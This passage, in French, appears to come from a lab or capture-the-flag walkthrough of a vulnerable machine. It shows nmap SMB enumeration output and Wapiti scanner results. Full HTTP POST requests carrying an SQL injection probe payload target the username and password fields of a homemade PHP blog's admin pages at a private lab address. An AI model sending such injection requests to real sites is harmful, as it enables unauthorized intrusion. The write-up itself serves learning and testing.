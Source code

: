 ```plain
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur le port 80 utilisé par Apache on trouve une application de blog PHP-powered faite maison.  

On lance *Wapiti* dessus qui trouve immédiatement des failles SQL dans la page l'authentification et celle de modification du profil (toutes les pages en fait) :  

```plain
Injection MySQL dans http://192.168.1.95/admin/post.php via une injection dans le paramètre username
Evil request:
POST /admin/post.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/post.php
Content-Type: application/x-www-form-urlencoded

month=on&date=13&year=on&username=%BF%27%22%28&password=letmein&time=07%3A08&title=default&entry=on&submit=Submit

Injection MySQL dans http://192.168.1.95/admin/post.php via une injection dans le paramètre password
Evil request:
POST /admin/post.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/post.php
Content-Type: application/x-www-form-urlencoded

month=on&date=13&year=on&username=default&password=%BF%27%22%28&time=07%3A08&title=default&entry=on&submit=Submit

Injection MySQL dans http://192.168.1.95/admin/profile.php via une injection dans le paramètre username
Evil request:
POST /admin/profile.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/profile.php
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein&sig=on&fname=sig.txt&submit=Submit

Injection MySQL dans http://192.168.1.95/admin/profile.php via une injection dans le paramètre password
Evil request:
POST /admin/profile.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/profile.php
Content-Type: application/x-www-form-urlencoded

username=default&password=%BF%27%22%28&sig=on&fname=sig.txt&submit=Submit
```
